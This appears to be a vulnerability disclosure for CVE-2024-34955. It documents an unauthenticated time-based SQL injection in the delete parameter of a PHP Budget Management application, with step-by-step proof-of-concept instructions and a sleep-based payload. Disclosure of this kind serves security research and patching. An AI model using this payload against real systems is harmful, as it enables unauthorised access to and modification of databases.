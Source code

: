 # Budget Management  - Unauthenticated SQL Injection
+ *Exploit Title:* Budget Management   - Unauthenticated SQL Injection - delete parameter
+ *Date:* 2024-05-05
+ *Exploit Author:* Asif Nawaz Minhas
+ *Vendor Homepage:* https://code-projects.org/budget-management-in-php-with-source-code/
+ *Software Link:* https://download.code-projects.org/details/1c10fce2-3260-479b-878f-b2107dec72f9
+ *Version:* 1.0
+ *Tested on:* Kali Linux + PHP 8.2.12, Apache 2.4.58
+ *CVE:* CVE-2024-34955 

## Description:
Budget Management is vulnerable to a unauthenticated SQL injection vulnerability.
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to http://localhost/PHP-Budget-Calculator/index.php
+ Add in Budget Title b2 and in Amount 111 and then click on the button Save.
+ Click now on the button delete and intercept this request
+ Add this payload: (select*from(select(sleep(12)))a)
+ The full GET reqeust becomes now like this: GET /PHP-Budget-Calculator/process.php?delete=(select*from(select(sleep(12)))a)
+ Click now on the button Forward.
+ Now you will see a time delay of 12 seconds, thus confirming the unauthenticated time based sql injection.




![SQLi](https://github.com/ethicalhackerNL/CVEs/blob/931ee2513e921398ebd038a312e13c491ea90e9f/Budget%20Management/print5.png )

![SQLi](https://github.com/ethicalhackerNL/CVEs/blob/931ee2513e921398ebd038a312e13c491ea90e9f/Budget%20Management/print4.png)


